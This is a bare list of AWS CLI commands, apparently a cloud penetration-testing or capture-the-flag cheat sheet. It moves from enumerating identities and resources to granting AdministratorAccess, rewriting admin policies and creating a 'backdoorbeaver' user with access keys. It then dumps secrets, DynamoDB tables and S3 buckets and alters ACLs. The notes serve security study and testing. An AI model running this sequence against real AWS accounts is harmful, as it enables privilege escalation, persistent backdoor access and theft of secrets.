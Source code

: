 ## caller
aws sts get-caller-identity

## assume-Role
aws sts assume-role --role-arn arn:aws:iam::666666666666:role/ad-example --role-session-name ad-example

## list, show stuff
aws ec2 describe-instances
aws s3 ls
aws s3api list-buckets
aws iam list-users
aws iam list-roles
aws iam list-groups-for-user --user-name user-example
aws iam list-group-policies --group-name Admins

# #list (attached) policys
aws iam list-attached-role-policies --role-name ad-example
aws iam list-attached-user-policies --user-name user-example
aws iam list-user-policies --user-name user-example


## get policy
aws iam get-policy --policy-arn ...
aws iam get-user-policy --user-name user-example --policy-name ...
aws iam get-policy-version --policy-arn ... --version-id v1
aws iam get-role-policy --role-name ... --policy-name ...

## attach a policy
aws iam attach-user-policy --user-name user-example --policy-arn ...
aws iam attach-user-policy --user-name user-example --policy-arn arn:aws:iam::aws:policy/AdministratorAccess
aws iam attach-group-policy --group-name developer --policy-arn arn:aws:iam::aws:policy/AdministratorAccess

## create admin policy
aws iam create-policy-version --policy-arn arn:aws:iam::666666666666:policy/Print --policy-document file:///.../newAdminPolicy.json --set-as-default
aws iam put-group-policy --group-name Admins --policy-document file:///.../newAdminPolicy.json --policy-name AdminRoot
aws iam put-role-policy --role-name developerlambda --policy-name adminnow --policy-document file:///.../newAdminPolicy.json      


## role Policys
aws iam list-role-policies --role-name admin
aws iam get-role-policy --role-name admin --policy-name AddUser


## search for adminstuff
aws iam list-policies | grep 'AdministratorAccess'  


## add user to group, create user, change login
aws iam add-user-to-group --group-name developer --user-name kevin
aws iam create-login-profile --user-name mandy --password compliance123! --no-password-reset-required
aws iam create-user --user-name backdoorbeaver
aws iam create-access-key --user-name Bob


## EC2, list, deploy
aws ec2 describe-subnets
aws ec2 describe-security-groups
aws iam list-instance-profiles

aws ec2 describe-images --owners amazon --filters 'Name=name,Values=amzn-ami-hvm-*-x86_64-gp2' 'Name=state,Values=available' --output json | jq -r '.Images | sort_by(.CreationDate) | last(.[]).ImageId'

aws ec2 run-instances --subnet-id subnet-.... --image-id ami-... --iam-instance-profile Name=ec2_admin --instance-type t2.micro --security-group-ids "sg-..."

## dynamadb
aws dynamodb scan --table-name secrettable-233223 --region us-east-1

## secret
aws secretsmanager get-secret-value --secret-id ...--region

## s3
aws s3 ls
aws s3api list-buckets
aws s3 sync s3://user-resources-12jljlaj3434ljalsjf/ ./
aws s3api list-objects --bucket ...
aws s3 --no-sign-request --region ap-southeast-1 ls s3://static-resources-example
aws s3api get-bucket-policy --bucket ... --output text | python -m json.tool
aws s3api put-bucket-policy --bucket ... --policy file://policy.json
aws s3api get-bucket-acl --bucket ... > acl.json
aws s3api put-bucket-acl --bucket --access-control-policy file://acl.json
aws s3api get-object-acl --bucket ... --key flag > object.json
aws s3api put-object-acl --bucket ... --key flag --access-control-policy file://object.json


## API
aws apigateway get-account
aws apigateway get-rest-apis
aws apigateway get-api-keys
aws apigateway get-api-key --api-key ... --include-value
aws apigateway get-ressources --rest-api-id ...
aws apigateway get-method --rest-api-id ... --http-method GET --ressource-id ...

## lambda
aws lambda get-function --function-name DynamoFunction  
aws lambda list-functions
aws lambda invoke --function-name evil-function output.txt
